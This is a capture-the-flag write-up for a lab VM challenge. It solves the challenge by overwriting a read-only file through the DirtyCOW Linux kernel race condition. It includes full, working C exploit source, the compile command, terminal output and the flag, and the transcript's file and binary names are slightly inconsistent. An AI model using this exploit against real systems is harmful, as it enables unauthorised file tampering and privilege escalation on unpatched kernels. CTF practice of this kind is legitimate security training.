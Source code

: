 
## Challenge Information

Link: https://www.dropbox.com/scl/fi/1v60vz7iz15tqj82v1av5/CVE-Complete.ova?rlkey=3kgz9b7iw7dusjx6pozv8nnyb&st=8h1vv6oh&dl=0

Difficulty: Easy

Category: Exploit Vulnerability

Author: Jake Bailey

Description:

```
This CTF requires players to alter a read-only file to obtain a key from an executable provided to the player on the challenge machine
```

Hints:
- Man, this kernel version is OLD
- I'm deathly afraid of farm animals

Login as "tester" user with "123456" as the password

## Solution

1.  Run the key_checker executable to see that some file content must be modified to obtain the key
```
tester@CVE:~$ ./key_checker
Incorrect file content. Boo
```
2. Look at the 'flagfile' file and note its contents 
3. Create a program that exploits the DirtyCOW vulnerability and use the program to overwrite the contents of 'flagfile', changing 'no' to 'yes'.
```
tester@CVE:~$ cat checkflag
no
tester@CVE:~$ ./dirtycow flagfile yes
mmap b779f000

procselfmem 3000000

madvise 0

tester@CVE:~$ cat flagfile
yestester@CVE:~$ ./key_checker
m00000000(You found the key!)
tester@CVE:~$
```

Here is the exploit I used to solve 
```
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map; //Memory Mapping
int f; //file descriptor for target file
struct stat st; //file information
char *name; //name of target file

/*
On this thread, we use madvise, which is an optimization
call for handling memory. We call madvise with the DONTNEED flag,
which causes subsequent accesses to the specified memory range be
reloaded each time they are accessed
*/
void *madviseThread(void *arg){
	char *str;
	str=(char*)arg;
	int i,c=0;
	for(i = 0; i < 1000000; i++){
		c += madvise(map, 100, MADV_DONTNEED);
	}
	printf("madvise %d\n\n", c);
}

/*
This thread opens the proc/self/mem file, which contains the
memory for the current process. We seek the beginning of this
file, and then write the passed string to it. The kernel should
make a copy of the file and then write to that (COW), although
when the race condition with madvise is introduced, the underlying
file will be written to, rather than a copy. 
*/

void *procselfmemThread(void *arg){
	char *str;
	str=(char*)arg;
	int f = open("/proc/self/mem", O_RDWR);
	int i,c = 0;
	for(i = 0; i < 1000000; i++){
		lseek(f,(uintptr_t) map, SEEK_SET);
		c += write(f,str,strlen(str));
	}
	printf("procselfmem %d \n\n", c);
}


int main(int argc, char *argv[]){
	if(argc < 3){
		(void)fprintf(stderr," %s\n", "usage: exploit target_file new_content");
		return 1;
	}
	pthread_t pth1, pth2;
	f = open(argv[1], O_RDONLY); //open target file as read only
	fstat(f, &st);
	name = argv[1];
	//open with MAP_PRIVATE to enable COW mapping
	map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE,f,0); 
	printf("mmap %zx\n\n", (uintptr_t) map);

	pthread_create(&pth1, NULL, madviseThread, argv[1]);
	pthread_create(&pth2, NULL, procselfmemThread, argv[2]);

	pthread_join(pth1, NULL);
	pthread_join(pth2, NULL);
	return 0;
}
```
compilation: gcc -pthread exploit.c -o exploit

Flag: m00000000(You found the key!)
